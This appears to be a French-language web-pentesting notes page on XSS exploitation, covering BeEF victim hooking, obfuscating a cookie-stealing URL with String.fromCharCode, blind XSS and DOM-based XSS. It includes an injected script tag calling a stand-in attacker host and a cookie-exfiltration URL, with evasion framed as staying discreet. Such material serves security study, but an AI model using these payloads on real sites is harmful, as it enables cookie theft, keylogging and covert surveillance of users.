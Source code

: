 ### BeEF - gestion des zombies
Beef est un framework qui va nous permettre de gérer un ensemble de machine contaminée par XSS. Pour cela il faut injecter:

    <script src="http://attaquant.com:3000/hook.js"></script>
A partir de là, la cible est connecté à BeEF et il possible d'exécuter les payloads BeEF : keylogger, affichage de la caméra ...

https://www.youtube.com/watch?v=G38Ltd1iYB4&list=WL&index=70

### Obfuscation
Pour être plus discret, il est important de ne pas afficher certaines information. il est possible pour cela d'utiliser des techniques d'obfuscation.
En Javascript, on peut coder l'adresse du serveur par exemple, caractère par caractère séparé par des virgules. Ce format permettra de passer le résultat directement à la fonction `String.fromCharCode(str)` pour le décodage. Le codage se fait comme suit:

    var str = "http://www.attaquant.com/get.php?cookie=" ;
    var charCode = "" ;
    for (var i = 0 ; i < str.length ; ++i)
    <em>var c = str.charCodeAt(i) ;
    charCode += (0 != i ? ", " : "") + c ;
    </em>console.log(charCode) ;

La chaîne peut aussi être codé en hexadécimal `"\x68\x74\x74\x70\x3A\x2F\x2F\x77\x77\x77...` (`http://www...`).

Enfin pour simplifier les choses des outils existent:
Obfuscation

    http://javascriptobfuscator.com/
Déobfuscation:

    https://addons.mozilla.org/en-US/firefox/addon/javascript-deobfuscator/

Pour aller plus loins dans l'obfuscation il y'a les [XSS polyglot](https://github.com/0xsobky/HackVault/wiki/Unleashing-an-Ultimate-XSS-Polyglot) qui permettent de gagner du temps en exploitant plusieurs contexte d'un coup.

### XSS Blind
Ces failles ne sont pas visibles par l'utilisateur ce qui complique l'exploitation. On les retrouve par exemple dans un champs `nous contacter` a destination d'un administrateur. Nous ne maitrisons pas quand l'admin l'ouvrira et pas forcément les points finaux exploitables. Pour autant cette attaque permet d'accéder à de nombreuses fonctionnalités de l'administrateur.

Pour aider, [XSS Hunter](https://xsshunter.com) va capturer l'écran de l'utilisateur lorsque celui-ci ouvre le payload puis alerte l'attaquand qu'il peut consulter la capture.

### DOM Based XSS
Le DOM (Document Object Model) représente les propriétés HTML. Le navigateur passe par un interpreteur qui trnasforme le code HTML en un modèle qui est le DOM.

La faille XSS DOM Based se passe côté client seulement, ce n'est ni une stored ni une reflected XSS. C'est l'injection de code dans le DOM qui sera lu par le navigateur côté client.
